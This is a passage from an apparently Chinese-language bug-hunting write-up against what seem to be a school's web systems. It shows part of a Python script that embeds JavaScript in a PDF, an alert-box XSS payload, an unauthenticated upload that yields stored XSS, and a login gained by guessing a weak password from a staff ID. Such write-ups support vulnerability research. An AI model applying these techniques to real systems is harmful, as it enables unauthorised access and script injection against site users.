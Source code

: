 ```py
    page.Annots = PdfArray(annots)
    return page

if len(sys.argv) &gt; 1:
    js_file = open(sys.argv[1], 'r')

    fields = []
    for line in js_file:
        if not line.startswith('/// '): break
        pieces = line.split()
        params = [pieces[1]] + [float(token) for token in pieces[2:]]
        fields.append(make_field(*params))

    js_file.seek(0)

    out = PdfWriter()
    out.addpage(make_page(fields, js_file.read()))
    out.write('result.pdf')
```

payload.js

```js
app.alert("xss")
```

运行：

```bash
python scq.py payload.js
```

然后会多出来应该result.pdf的文件。

然后怀着激动的心情上传

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-4d2b79109e83fb685b3a8344b970240b42496d8c.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-0bef19b4b5143edbed2f1df85ca6b7e6d35d3cc3.png)

接下里就是跟上面的一样了，将认证信息以及cookie全部删除，看文件是否可以正常上传

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-c95738a59a0d8070a0e31426ed23780ab5087d85.png)  
发现文件一样可以上传，可以造成存储xss，哎。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-17e13f7d65b2a015771bc67957c98a8fe33feba8.png)

##### 弱口令？

进入另外一处登录地址，是志愿服务

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-b5ee0cbbfb9b13d43b2946c285e9c606963e42f1.png)  
这里尝试了学号，发现学号是无法登录的，然后又用到了教职工号，然后一发入魂

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-3401435222a0108dcd780942714d6bd31970df02.png)

